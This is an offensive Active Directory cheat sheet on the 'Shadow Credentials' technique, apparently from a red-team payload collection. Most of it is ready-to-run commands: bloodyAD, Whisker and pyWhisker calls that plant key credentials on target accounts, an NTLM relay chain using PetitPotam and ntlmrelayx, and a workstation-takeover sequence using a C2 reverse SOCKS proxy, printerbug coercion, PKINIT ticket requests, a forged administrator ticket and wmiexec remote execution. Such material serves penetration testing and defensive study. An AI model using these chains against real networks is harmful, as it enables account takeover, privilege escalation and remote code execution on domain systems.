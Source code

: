 # Password - Shadow Credentials

> Add **Key Credentials** to the attribute `msDS-KeyCredentialLink` of the target user/computer object and then perform Kerberos authentication as that account using PKINIT to obtain a TGT for that user.  When trying to pre-authenticate with PKINIT, the KDC will check that the authenticating user has knowledge of the matching private key, and a TGT will be sent if there is a match.

:warning: User objects can't edit their own `msDS-KeyCredentialLink` attribute while computer objects can. Computer objects can edit their own msDS-KeyCredentialLink attribute but can only add a KeyCredential if none already exists

**Requirements**:

* Domain Controller on (at least) Windows Server 2016
* Domain must have Active Directory `Certificate Services` and `Certificate Authority` configured
* PKINIT Kerberos authentication
* An account with the delegated rights to write to the `msDS-KeyCredentialLink` attribute of the target object

**Exploitation**:

* Windows/Linux

  ```ps1
  bloodyAD --host 10.1.0.4 -u bloodyAdmin -p 'Password123!' -d bloody add shadowCredentials targetpc$
  bloodyAD --host 10.1.0.4 -u bloodyAdmin -p 'Password123!' -d bloody remove shadowCredentials targetpc$ --key <key from previous output>
  ```

* From Windows, use [eladshamir/Whisker](https://github.com/eladshamir/Whisker):

  ```powershell
  # Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.
  Whisker.exe list /target:computername$
  # Generates a public-private key pair and adds a new key credential to the target object as if the user enrolled to WHfB from a new device.
  Whisker.exe add /target:"TARGET_SAMNAME" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
  Whisker.exe add /target:computername$ [/domain:constoso.local /dc:dc1.contoso.local /path:C:\path\to\file.pfx /password:P@ssword1]
  # Removes a key credential from the target object specified by a DeviceID GUID.
  Whisker.exe remove /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /remove:2de4643a-2e0b-438f-a99d-5cb058b3254b
  ```

* From Linux, use [ShutdownRepo/pyWhisker](https://github.com/ShutdownRepo/pyWhisker):

  ```bash
  # Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.
  python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"
  # Generates a public-private key pair and adds a new key credential to the target object as if the user enrolled to WHfB from a new device.
  pywhisker.py -d "FQDN_DOMAIN" -u "user1" -p "CERTIFICATE_PASSWORD" --target "TARGET_SAMNAME" --action "list"
  python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename "test1"
  # Removes a key credential from the target object specified by a DeviceID GUID.
  python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "remove" --device-id "a8ce856e-9b58-61f9-8fd3-b079689eb46e"
  ```

## Scenario

### Shadow Credential Relaying

* Trigger an NTLM authentication from `DC01` (PetitPotam)
* Relay it to `DC02` (ntlmrelayx)
* Edit `DC01`'s attribute to create a Kerberos PKINIT pre-authentication backdoor (pywhisker)
* Alternatively : `ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'`

### Workstation Takeover with RBCD

**Requirements**:

* `Print Spooler` service running
* `WebClient service` running

**Exploitation**:

* Using your C2, start a reverse socks on port 1080: `socks 1080`
* Enable port forward from port 8081 to 81 on the compromised machine: `rportfwd 8081 127.0.0.1 81`
* Start the relay: `proxychains python3 ntlmrelayx.py -t ldaps://dc.domain.lab --shadow-credentials --shadow-target target\$ --http-port 81`
* Trigger a callback on webdav: `proxychains python3 printerbug.py domain.lab/user:password@target.domain.lab compromised@8081/file`
* Use [dirkjanm/PKINIT](https://github.com/dirkjanm/PKINITtools) to get a TGT for the machine account: `proxychains python3 gettgtpkinit.py domain.lab/target\$ target.ccache -cert-pfx </path/from/previous/command.pfx> -pfx-pass <pfx-pass>`
* Elevate your privileges by creating a service ticket impersonating a local admin: `proxychains python3 gets4uticket.py kerberos+ccache://domain.lab\\target\$:target.ccache@dc.domain.lab cifs/target.domain.lab@domain.lab administrator@domain.lab administrator_target.ccache -v`
* Use your ticket: `export KRB5CCNAME=/path/to/administrator_target.ccache; proxychains python3 wmiexec.py -k -no-pass domain.lab/administrator@target.domain.lab`

## References

* [Shadow Credentials: Workstation Takeover Edition - Matthew Creel - October 21, 2021](https://www.fortalicesolutions.com/posts/shadow-credentials-workstation-takeover-edition)
* [Shadow Credentials - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials)
* [Shadow Credentials: Abusing Key Trust Account Mapping for Account Takeover - Elad Shamir - Jun 17](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
